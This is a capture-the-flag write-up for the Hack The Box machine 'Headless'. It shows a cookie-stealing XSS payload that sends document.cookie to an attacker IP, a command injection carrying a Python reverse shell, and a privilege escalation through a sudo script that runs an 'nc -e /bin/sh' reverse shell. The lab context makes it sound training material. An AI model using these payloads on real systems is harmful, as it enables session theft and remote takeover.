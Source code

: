 ```yaml
---
title: "Headless Hackthebox"
date: 2024-04-15
draft: false
tags : ["write-up", "htb"]

---
```

## User flag
### Recon

Port scanning:
![alt text](/posts/headless-htb/image.png)

Directory scanning:

![alt text](/posts/headless-htb/image-1.png)

Server open a port (5000) for running a website. After scanning directories, I found 2 interesting directories :
* /support which we can access by `For questions` button. It has a form to submit a message. By checking its request, I find that it is using `POST` method to send data to the server. I try to send a message with a payload `<h1>alert(1)</h1>` and it responses a alert form which includes header of this request. Additionally, I decode `is_admin` cookie and get a string which have first part is `user` and second part is a unreadable string.

![alt text](/posts/headless-htb/image-2.png)

* /dashoard which is only for authenticated account. 

### Exploitation

Notice that the form print the header of request, so I try to change the header User-Agent to XSS payload and it works. 

After that, I set up a listener and send a payload to get the cookie. 
```javascript
<script>fetch("http://10.10.14.65:9030/?cookie="+document.cookie);</script>
```
I got the `is_admin` cookie.
![alt text](/posts/headless-htb/image-3.png)

Replace the cookie with the one I got, I can access the dashboard page.
![alt text](/posts/headless-htb/image-4.png)

Use `Generate report` button, the web will send a request with a parameter `data` equal the date we choose. I try to change it to a linux command and it works. Then, I use reverse shell payload to get shell.
```python
;export RHOST="10.10.14.65";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```

Get shell and user flag.
![alt text](/posts/headless-htb/image-5.png)


## Root flag
### Recon

Run `sudo -l` command, I see that I can run `sudo /usr/bin/syscheck` as root without password.
Command `syscheck` is looking for the `initdb.sh` program to execute. When `syscheck` is run as root, it will execute `initdb.sh` as root.

### Exploitation
Create a file `initdb.sh` with reverse shell payload and make it executable.
```bash
nc -e '/bin/sh' 10.10.14.65 7878
```

Run `syscheck` and get root shell.
![alt text](/posts/headless-htb/image-6.png)


